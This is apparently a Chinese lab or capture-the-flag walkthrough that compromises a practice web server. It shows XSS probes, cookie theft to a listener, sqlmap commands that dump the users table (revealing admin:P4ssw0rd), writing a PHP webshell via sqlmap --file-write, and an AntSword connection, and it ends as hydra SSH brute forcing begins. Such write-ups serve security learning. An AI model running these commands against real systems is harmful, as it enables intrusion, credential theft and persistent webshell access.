 # 端口发现
nmap -sP 192.168.31.0/24   或  arp-scan -l
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668820473637-42d75cbe-4683-46dd-becb-787c2e7bc6c9.png#averageHue=%2329323f&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=340&id=u5cce8f30&margin=%5Bobject%20Object%5D&name=image.png&originHeight=340&originWidth=813&originalType=binary&ratio=1&rotation=0&showTitle=false&size=90990&status=done&style=none&taskId=u4b1aea49-eee8-4d56-84fd-5b164d2ec78&title=&width=813)
nmap -p- -A 192.168.31.152
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668820626229-574964e6-def4-4ae5-9e52-9ce034da6711.png#averageHue=%232b3644&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=287&id=uc00f6250&margin=%5Bobject%20Object%5D&name=image.png&originHeight=287&originWidth=653&originalType=binary&ratio=1&rotation=0&showTitle=false&size=72923&status=done&style=none&taskId=u46da463d-fc32-4b98-945d-36715ec6d6b&title=&width=653)
# web 突破
dirb 扫目录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668820910101-3a8d8626-fa80-4cbf-bf42-92ac56a7c9ae.png#averageHue=%232f3f50&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=466&id=u43626067&margin=%5Bobject%20Object%5D&name=image.png&originHeight=466&originWidth=620&originalType=binary&ratio=1&rotation=0&showTitle=false&size=170743&status=done&style=none&taskId=u781b75a9-7631-4a64-99e4-ce380f0fcb6&title=&width=620)
对返回值为 200 的都看一下
管理员登陆界面 /admin/login.php
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668820994726-5e92e72a-a1b3-4fac-8c0f-d5cd3fac6b2a.png#averageHue=%23fbfbf6&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=366&id=u4537cfc7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=366&originWidth=1169&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25192&status=done&style=none&taskId=ue1517b2b-bff4-425d-bbfe-e5baa90bbc8&title=&width=1169)
post 界面
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821015210-d19435fd-55d0-4f1c-944a-d8b543cffed8.png#averageHue=%23fbfbf7&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=340&id=u36c06446&margin=%5Bobject%20Object%5D&name=image.png&originHeight=340&originWidth=1128&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26790&status=done&style=none&taskId=u89555b20-b7a8-4e8f-890f-48e710ab8fd&title=&width=1128)

页面提示缺少参数 id
尝试 id=1  id=2
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821089862-d276387c-769c-419e-ac42-70dc659ff3b7.png#averageHue=%23fcfcfc&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=649&id=uc1e87f5e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=649&originWidth=1149&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36367&status=done&style=none&taskId=u2dce13cb-65be-4581-b77d-efa4a0d9027&title=&width=1149)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821106406-95c3208a-2442-4298-bea2-fe61cf5fef90.png#averageHue=%23fcfcfc&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=649&id=uf20ff29f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=649&originWidth=1133&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33656&status=done&style=none&taskId=ue7202aa2-cd3b-4edc-a587-c517b616b6c&title=&width=1133)
从 id=3 开始往后就没了，尝试 sql 注入但无回显
_通常可以使用 <script>alert(1)</script> 来检测页面中是否包含 XSS 漏洞，但容易 WAF 或其他安全防御机制过滤，使用 '">< 可以在一定程度上避免这个问题_
_根据提交返回的结果可以判断是否存在漏洞，当特殊符号被编码时将会增加 XSS 攻击的难度，甚至可能就不存在 XSS 漏洞_
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821296548-319610d9-4afc-4ab9-b4f4-bf91a44d375e.png#averageHue=%23f7f3f2&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=206&id=ua7cf29f7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=206&originWidth=958&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17967&status=done&style=none&taskId=u945d5978-f3b4-4ab6-b35b-9e9c270e5fd&title=&width=958)
尝试提交 qqq'"><
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821337440-18c63daa-26fe-4b31-a3f8-980f2baee98b.png#averageHue=%23fefdfd&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=150&id=u5cd35807&margin=%5Bobject%20Object%5D&name=image.png&originHeight=150&originWidth=344&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3687&status=done&style=none&taskId=u07c31d05-edd8-4579-92d0-325d3b60efa&title=&width=344)
没有对特殊字符进行编码和过滤
尝试输入弹窗
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821427792-5958bb9f-3073-4f15-836e-d84335206e66.png#averageHue=%23fdfdfc&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=403&id=u58c3f3ab&margin=%5Bobject%20Object%5D&name=image.png&originHeight=403&originWidth=749&originalType=binary&ratio=1&rotation=0&showTitle=false&size=12927&status=done&style=none&taskId=u7132aee0-c93a-4db0-87a9-090a19f8bb1&title=&width=749)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821439354-b2093ee8-2bd6-4c43-966c-0c764c5ab472.png#averageHue=%233a6bac&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=353&id=u92e0cc1a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=353&originWidth=789&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10081&status=done&style=none&taskId=u510b7e57-3894-48bb-a7f1-972cf8f94d2&title=&width=789)
xss 可利用，尝试利用 xss 获取管理员 cookie
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668821691261-6d0667e1-72ef-4af4-a067-3af4a3fc7484.png#averageHue=%23fdfcfc&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=421&id=udf7c1691&margin=%5Bobject%20Object%5D&name=image.png&originHeight=421&originWidth=798&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14750&status=done&style=none&taskId=u74466618-ef73-4768-bc30-57576760b45&title=&width=798)
kali 开启监听
点击提交后首先监听到主机的 cookie
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822398987-0a481aca-70f7-4e66-843d-384562a59997.png#averageHue=%232a3441&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=241&id=uafcd0d97&margin=%5Bobject%20Object%5D&name=image.png&originHeight=241&originWidth=891&originalType=binary&ratio=1&rotation=0&showTitle=false&size=71940&status=done&style=none&taskId=uce9b68f9-cbd3-4c15-a402-11fbd4ac26b&title=&width=891)
然后 重现监听，一段时间后，监听到来自靶机的 cookie
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822444966-62fc264c-67b0-4425-9e00-73d942ac5535.png#averageHue=%23293441&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=261&id=u8761eb09&margin=%5Bobject%20Object%5D&name=image.png&originHeight=261&originWidth=664&originalType=binary&ratio=1&rotation=0&showTitle=false&size=62023&status=done&style=none&taskId=u2a2fc15a-8cb0-4511-85e9-86eb35db430&title=&width=664)
将 cookie 复制，进入 /admin 页面，使用 cookie 编译器修改 cookie
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822498134-1b0499f6-d3ad-477e-923d-07e3e3e1917d.png#averageHue=%23edebeb&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=324&id=u7c5aad6b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=324&originWidth=559&originalType=binary&ratio=1&rotation=0&showTitle=false&size=13261&status=done&style=none&taskId=uafa26639-bbb6-4635-bfec-3df5f76adc4&title=&width=559)
修改完保存，点击 登录，成功登录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822679778-6eb18fd0-92d0-44d8-87d7-ee16cea8f614.png#averageHue=%23faf9f9&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=377&id=u617965cc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=377&originWidth=1245&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35207&status=done&style=none&taskId=u59251141-dcba-4aca-a0ea-0deb5caca47&title=&width=1245)
点击 编辑
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822752961-9dbd2307-dbd4-4036-a6aa-066f21d04fb0.png#averageHue=%23fbfbfa&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=414&id=uf59f0853&margin=%5Bobject%20Object%5D&name=image.png&originHeight=414&originWidth=1440&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39089&status=done&style=none&taskId=u92d8de7c-df64-427f-b70d-fb27032e9f5&title=&width=1440)
这里编辑的内容会在主页显示，和主页内容一样，所以这里的数据会进数据库
url 也是通过 id 传参，尝试 sql 注入
发现有回显
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668822793708-7c032442-738e-46ad-b6fc-d96a1530f238.png#averageHue=%23faf9f6&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=444&id=u4ec21038&margin=%5Bobject%20Object%5D&name=image.png&originHeight=444&originWidth=1423&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48587&status=done&style=none&taskId=u1e03f026-f53d-43dc-b066-8d865577d87&title=&width=1423)
准备 sql 注入，先抓个包
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823003786-89134780-77a7-4925-bbd1-1043d55949bd.png#averageHue=%23f7f6f6&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=259&id=u2266ba84&margin=%5Bobject%20Object%5D&name=image.png&originHeight=259&originWidth=880&originalType=binary&ratio=1&rotation=0&showTitle=false&size=32572&status=done&style=none&taskId=ucb4ed0da-e70f-4028-85bf-8d82742d796&title=&width=880)
复制下来放到 kali
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823043749-d3d78879-098f-406e-99d4-45991dcc01f3.png#averageHue=%23252934&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=303&id=u7acfebbd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=303&originWidth=844&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69116&status=done&style=none&taskId=u6b3963fb-d536-475b-b8fb-da00d3f9062&title=&width=844)
url 后面改为 *
保存
sqlmap -r requests.txt --dbs --batch
_也可以不抓包，直接  sqlmap -u "http://192.168.31.152/admin/edit.php?id=1*" --cookie "PHPSESSID=1q9cg0020cqe432kjokku43p51"  _
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823124512-94819b21-847e-4b73-8915-6b89a2645f96.png#averageHue=%23272e3b&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=119&id=ue53c1868&margin=%5Bobject%20Object%5D&name=image.png&originHeight=119&originWidth=423&originalType=binary&ratio=1&rotation=0&showTitle=false&size=18564&status=done&style=none&taskId=u5bbec303-41e9-4aa6-851d-0f89b0d7e5e&title=&width=423)
查询当前使用的数据库
sqlmap -r requests.txt --current-db --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823275717-df041caf-2f92-4c92-ba3f-dd6d89c49d3a.png#averageHue=%232b3644&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=121&id=u9c68b851&margin=%5Bobject%20Object%5D&name=image.png&originHeight=121&originWidth=383&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26904&status=done&style=none&taskId=u3069dcb7-f0ed-4177-bb10-b956419876d&title=&width=383)
爆出 blog 库中的表
sqlmap -r requests.txt -D "blog" --tables --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823333793-5291f6f5-67ca-4cdc-b45d-a433e8b93376.png#averageHue=%23252a36&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=147&id=ud9607139&margin=%5Bobject%20Object%5D&name=image.png&originHeight=147&originWidth=352&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14524&status=done&style=none&taskId=u27b573ff-0b0c-40be-81f3-ddc9644d3b3&title=&width=352)
爆出 users 表的字段
sqlmap -r requests.txt -D "blog" -T "users" --columns --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823373237-d73be0d2-9d4e-413a-bf2d-30dbe0fce46e.png#averageHue=%23262b37&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=193&id=u7c67cadb&margin=%5Bobject%20Object%5D&name=image.png&originHeight=193&originWidth=378&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23161&status=done&style=none&taskId=u1703bc7b-57d9-4658-9adf-8297730e8a5&title=&width=378)
dump 出 login 和 password 字段
sqlmap -r requests.txt -D "blog" -T "users" -C "login,password" --dump --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823452650-b29a820b-afa3-47b1-9cfb-a5ab6f929232.png#averageHue=%23262b37&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=182&id=ube0bea60&margin=%5Bobject%20Object%5D&name=image.png&originHeight=182&originWidth=618&originalType=binary&ratio=1&rotation=0&showTitle=false&size=30367&status=done&style=none&taskId=ua14b6649-f094-4a96-a907-a7ff8dd1ce9&title=&width=618)
得到账户密码 admin：P4ssw0rd （md5 解密）
查看当前用户
sqlmap -r requests.txt --current-user --batch
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668823755974-73627584-572f-4850-a05d-bd4e2505ddfa.png#averageHue=%232b3746&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=68&id=u4b493295&margin=%5Bobject%20Object%5D&name=image.png&originHeight=68&originWidth=405&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16736&status=done&style=none&taskId=u7e2b0f33-8beb-41e6-b6a9-c59073f29c5&title=&width=405)
既然是 root，尝试写入一句话木马
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824081249-03f488a1-19f8-4ab0-8d54-48cab992dd15.png#averageHue=%232a3342&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=63&id=ub852ce8b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=63&originWidth=332&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9737&status=done&style=none&taskId=ud4ba00fc-de4b-4760-b614-01ea5b60fb3&title=&width=332)
sqlmap -r requests.txt --file-write="ma.php" --file-dest="/var/www/html/ma.php"
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824158474-40bd02c0-0557-4cc0-911c-4d5d2e6845a7.png#averageHue=%232b3440&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=116&id=u3555a9bd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=116&originWidth=1242&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48056&status=done&style=none&taskId=u70c566ea-6d3a-48b7-9bbd-54bb12b9ff9&title=&width=1242)
没有写入成功
可能是权限问题
换个路径
sqlmap -r requests.txt --file-write="ma.php" --file-dest="/var/www/css/ma.php"
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824294046-db0b4139-b0ac-4bad-9192-d523e408e317.png#averageHue=%2329333f&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=137&id=u82c8ff2a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=137&originWidth=1042&originalType=binary&ratio=1&rotation=0&showTitle=false&size=52732&status=done&style=none&taskId=u6aa61c40-f8d4-4c93-8cdf-ae5cf7fb221&title=&width=1042)
写入成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824376394-882d85c4-7b0d-468d-9513-de34a45d8a71.png#averageHue=%23f7f5f1&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=408&id=u076eb3c5&margin=%5Bobject%20Object%5D&name=image.png&originHeight=408&originWidth=777&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46739&status=done&style=none&taskId=u3fd579c5-80c1-4c02-8cf8-ead64d8b782&title=&width=777)
蚁剑连接
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824556086-f2136cd4-5a7c-462b-9f4f-fa9333fbeff9.png#averageHue=%23eeeeee&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=299&id=u0bb337b7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=299&originWidth=1034&originalType=binary&ratio=1&rotation=0&showTitle=false&size=34091&status=done&style=none&taskId=u1a6d3704-14b5-4335-9684-816081d5843&title=&width=1034)
连接成功
拿到 shell
# 提权
蚁剑打开终端
查看 /etc/passwd
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668824630070-525d24e5-2a09-47d5-989b-3aff8cb29423.png#averageHue=%230d0c0c&clientId=u777334e4-9c68-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=410&id=u9371dd60&margin=%5Bobject%20Object%5D&name=image.png&originHeight=410&originWidth=1011&originalType=binary&ratio=1&rotation=0&showTitle=false&size=61220&status=done&style=none&taskId=uaa1639ca-3620-4998-93f1-5b014e067bc&title=&width=1011)
发现 user 用户和 root 用户使用同一个 bash
意思就是 user 就相当于是 root
使用 hydra 爆破 ssh 爆出 user 的密码
 

















